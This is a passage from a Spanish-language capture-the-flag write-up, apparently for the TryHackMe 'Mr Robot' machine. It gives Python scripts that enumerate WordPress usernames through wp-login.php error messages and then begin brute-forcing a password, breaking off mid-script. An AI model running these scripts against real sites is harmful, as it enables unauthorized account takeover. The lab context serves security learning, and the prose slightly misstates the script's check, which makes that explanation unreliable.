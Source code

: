   Para esto y ya que no conocemos los usuarios usaremos el diccionario para hacer un ataque de fuerza bruta, para este ataque hare un script personalizado en python el cual es el siguiente:

  ```python
#!/usr/bin/python

import requests, time
from pwn import *


url = 'http://[IP Machine]/wp-login.php'

s = requests.Session()
print ''
p1 = log.progress("Fuzzeando usuario")
time.sleep(3)
p1.status("Iniciando Fuzzing")
time.sleep(3)

with open('fsocity.dic', 'r') as f:
	for i in f:

		data = {'log' : i,
			'pwd' : 'contra'
			}

		r = s.post(url, data)
		p1.status('Probando %s' % i.strip('\n'))

		if "Invalid username." not in r.text:
			p1.success('Usuario el usuario %s valido ' % i.strip('\n'))
			break
  ```

  Con el script que me acabo de desarrollar lo que hace es hacer un loggeo y comparar la respuesta por parte del servidor enviando un usuario y una contraseña cualquiera, si en ella se encuentra la cadena **"Invalid username."** significa que el usuario es valido gracias a esto pude descubrir que el usuario **Elliot** es un usuario valido:

  <p align="center">
  <img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/THM/MrRobot/instrusion/fuzzU.png?raw=true">
  </p>

  Ahora que tenemos el usuario haremos una fuerza bruta a la password del usuario **Elliot**, para esto adaptaremos un poco el script para que ahora itere sobre la password y no el usuario:

  ```python
#!/usr/bin/python

import requests, time
from pwn import *

url = 'http://[Ip Machine]/wp-login.php'
user = 'Elliot'
s = requests.Session()

print ''

p1 = log.progress('Fuzzeando password')
time.sleep(2)
p1.status('Iniciando Fuzzing')
time.sleep(3)

with open('smallwordlist', 'r') as f:

	for i in f:
  ```